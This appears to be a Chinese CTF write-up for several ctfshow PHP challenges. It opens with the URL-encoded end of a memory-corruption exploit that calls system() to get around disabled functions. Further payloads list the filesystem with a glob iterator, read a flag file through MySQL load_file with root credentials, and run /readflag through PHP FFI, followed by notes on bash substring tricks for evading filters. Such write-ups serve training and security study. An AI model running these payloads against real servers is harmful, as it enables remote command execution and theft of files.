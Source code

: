```
die%28%22Couldn%27t%20parse%20ELF%20header%22%29%3B%7Dif%28%21%28%24basic_funcs%20%3D%20get_basic_funcs%28%24base%2C%20%24elf%29%29%29%20%7Bdie%28%22Couldn%27t%20get%20basic_functions%20address%22%29%3B%7Dif%28%21%28%24zif_system%20%3D%20get_system%28%24basic_funcs%29%29%29%20%7Bdie%28%22Couldn%27t%20get%20zif_system%20address%22%29%3B%7D%24fake_obj_offset%20%3D%200xd0%3Bfor%28%24i%20%3D%200%3B%20%24i%20%3C%200x110%3B%20%24i%20%2B%3D%208%29%20%7Bwrite%28%24abc%2C%20%24fake_obj_offset%20%2B%20%24i%2C%20leak%28%24closure_obj%2C%20%24i%29%29%3B%7Dwrite%28%24abc%2C%200x20%2C%20%24abc_addr%20%2B%20%24fake_obj_offset%29%3Bwrite%28%24abc%2C%200xd0%20%2B%200x38%2C%201%2C%204%29%3B%20write%28%24abc%2C%200xd0%20%2B%200x68%2C%20%24zif_system%29%3B%20%28%24helper-%3Eb%29%28%24cmd%29%3Bexit%28%29%3B%7Dctfshow%28%22cat%20/flag0.txt%22%29%3Bob_end_flush%28%29%3B
```



# 75 MySQL文件读取

```
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f-
>__toString().'');}exit(0);?>
#通过payload扫描 flag36.txt
try {
	$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root', 'root');
	foreach($dbh->query('select load_file("/flag36.txt")') as $row) {
		echo($row[0])."|"; 
	}
	$dbh = null;
} catch (PDOException $e) {
	echo $e->getMessage();exit(0);
}
exit(0);
```

# 76 PHP7.4新特性

FFI，php7.4以上才有 https://www.php.net/manual/zh/ffi.cdef.php https://www.php.cn/php-weizijiaocheng-415807.html

```
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);exit();//通过$ffi去调用system函数
```

```
c=include('1.txt');exit();
```

# 118 119 ${PATH:~a}

新姿势

> ~0获取最后一位
> ~1获取最后两位
> ~[a-z]/[A-Z]获取最后一位，等同数字0
> 在这要配合$PWD,$PATH
> pwd——echo $ PWD会输出当前目录名


[bash绕过方式]: https://blog.51cto.com/u_15127695/4278470	"bash绕过方式"